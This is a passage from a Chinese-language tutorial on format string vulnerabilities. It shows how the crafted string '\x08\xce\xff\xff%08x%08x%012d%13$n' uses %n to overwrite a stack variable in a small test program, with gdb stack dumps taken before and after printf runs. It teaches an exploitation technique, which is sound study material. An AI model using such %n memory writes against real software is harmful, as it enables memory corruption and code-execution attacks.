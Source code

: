 ### 覆盖内存

#### 覆盖栈内容

尝试将 `arg2` 的值更改为任意值（比如 `0x00000020`，十进制 32）

在 gdb 中可以看到得到 `arg2` 的地址 `0xffffce08`，那么我们构造格式字符串 `\x08\xce\xff\xff%08x%08x%012d%13$n`，其中 `\x08\xce\xff\xff` 表示 `arg2` 的地址，占 4 字节，`%08x%08x` 表示两个 8 字符宽的十六进制数，占 16 字节，`%012d` 占 12 字节，三个部分加起来就占了 4+16+12=32 字节，即把 `arg2` 赋值为 `0x00000020`。格式字符串最后一部分 `%13$n` 也是最重要的一部分，和上面的内容一样，表示格式字符串的第 13 个参数，即写入 `0xffffce08` 的地方（`0xffffce34`），`printf()` 就是通过这个地址找到被覆盖的内容

第一步：在printf处设置断点，这是执行printf之前的栈情况

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 --> 0xffffce08 --> 0x88888888 
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 --> 0xffffce08 --> 0x88888888 
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
```

第二步：输入`\x08\xce\xff\xff%08x%08x%012d%13$n`格式化字符串,printf函数执行后栈情况

```
[------------------------------------stack-------------------------------------]
0000| 0xffffce00 --> 0xffffce34 --> 0xffffce08 --> 0x20 (' ')
0004| 0xffffce04 --> 0x1 
0008| 0xffffce08 --> 0x20 (' ')
0012| 0xffffce0c --> 0xffffffff 
0016| 0xffffce10 --> 0xffffce2a ("ABCD")
0020| 0xffffce14 --> 0xffffce34 --> 0xffffce08 --> 0x20 (' ')
0024| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
0028| 0xffffce1c --> 0xffffce88 --> 0xf7e13dc8 --> 0x2b76 ('v+')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048517 in main () at formatSee.c:7
7	    printf(format, arg1, arg2, arg3, arg4);
gdb-peda$ x /20x $esp
0xffffce00:	0xffffce34	0x00000001	0x00000020	0xffffffff
0xffffce10:	0xffffce2a	0xffffce34	0x080481fc	0xffffce88
0xffffce20:	0xf7ffda74	0x00000001	0x42413490	0x00004443
0xffffce30:	0x00000000	0xffffce08	0x78383025	0x78383025
0xffffce40:	0x32313025	0x33312564	0x00006e24	0xf7e969db
```

对比 printf() 函数执行前后的输出，printf 首先解析 %13$n 找到获得地址 0xffffce34 的值 0xffffce08，然后跳转到地址 0xffffce08，将它的值 0x88888888 覆盖为 0x00000020，就得到 arg2=0x00000020

#### 覆盖任意地址内存
